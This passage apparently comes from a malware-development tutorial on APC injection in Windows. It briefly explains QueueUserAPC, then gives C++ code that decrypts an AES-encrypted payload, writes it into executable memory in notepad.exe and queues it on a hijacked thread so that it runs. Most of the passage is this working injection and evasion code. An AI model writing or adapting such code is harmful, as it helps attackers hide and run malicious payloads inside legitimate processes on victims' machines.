 Then, [`QueueUserAPC`](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc) is called to add the pointer to the payload (`pRemoteCode`) as an APC object to a thread APC Queue, and wait for the thread to enter **Alertable State**. Note that the [`QueueUserAPC()`](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc) function should cast the pointer (`pRemoteCode`) argument as a [PAPCFUNC Callback Function](https://docs.microsoft.com/en-us/windows/win32/api/winnt/nc-winnt-papcfunc), which is a type specifically used to designate addresses within the Asychronous Procedure Call (APC) Queue.

```c++
int InjectAPC(int pid, HANDLE hProc, unsigned char * payload, unsigned int payload_len) {

	HANDLE hThread = NULL;
	LPVOID pRemoteCode = NULL;

	hThread = FindThread(pid);
	if (hThread == NULL) {
		printf("Error, hijack unsuccessful.\n");
		return -1;
	}

	AESDecrypt((char *) payload, payload_len, (char *) key, sizeof(key));	

	pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
	WriteProcessMemory(hProc, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) NULL);

	QueueUserAPC((PAPCFUNC)pRemoteCode, hThread, NULL);
	
	return 0;
}
```

#### Implementation

```c++
int main(void) {
    
	int pid = 0;
    HANDLE hProc = NULL;

	pid = FindTarget("notepad.exe");

	if (pid) {
		printf("Notepad.exe PID = %d\n", pid);

		// try to open target process
		hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
						PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
						FALSE, (DWORD) pid);

		if (hProc != NULL) {
			InjectAPC(pid, hProc, payload, payload_len);
			CloseHandle(hProc);
		}
	}
	return 0;
}
```
